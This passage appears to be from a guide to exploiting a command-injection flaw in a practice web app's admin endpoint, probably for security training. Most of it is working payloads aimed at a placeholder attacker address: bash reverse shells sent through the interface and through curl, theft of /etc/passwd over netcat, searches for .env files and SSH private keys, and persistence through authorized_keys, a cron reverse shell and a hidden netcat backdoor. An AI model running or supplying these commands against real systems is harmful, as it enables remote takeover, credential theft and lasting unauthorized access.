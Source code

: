 **Reverse shell via UI:**
```bash
8.8.8.8; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

**Reverse shell via API:**
```bash
# URL encode the payload
curl -X GET "http://target:5000/admin/system-info?cmd=bash%20-i%20%3E%26%20/dev/tcp/YOUR_IP/4444%200%3E%261" \
     -H "Authorization: Bearer $TOKEN"
```

### Advanced Exploitation Techniques

#### Data Exfiltration
```bash
# Sensitive file access
8.8.8.8; cat /etc/passwd | nc YOUR_IP 4445

# Database config files
8.8.8.8; find / -name "*.env" -o -name "config.js" -o -name "database.yml" 2>/dev/null

# SSH keys
8.8.8.8; find /home -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
```

#### Persistence Methods
```bash
# Add SSH key
8.8.8.8; echo "YOUR_PUBLIC_KEY" >> ~/.ssh/authorized_keys

# Cron job persistence
8.8.8.8; echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'" | crontab -

# Simple backdoor
8.8.8.8; echo '#!/bin/bash
nc -e /bin/bash YOUR_IP 4444' > /tmp/.backdoor && chmod +x /tmp/.backdoor
```

### Testing Methodology

1. **Reconnaissance:** 
   - Explore the admin interface
   - Identify all input fields and API endpoints
   - Check developer tools for API calls

2. **Discovery:** 
   - Test for command injection with simple payloads
   - Try different endpoints and parameters
   - Look for error messages revealing system information

3. **Exploitation:** 
   - Use successful injection methods to execute commands
   - Test both UI and direct API approaches
   - Document which methods work best
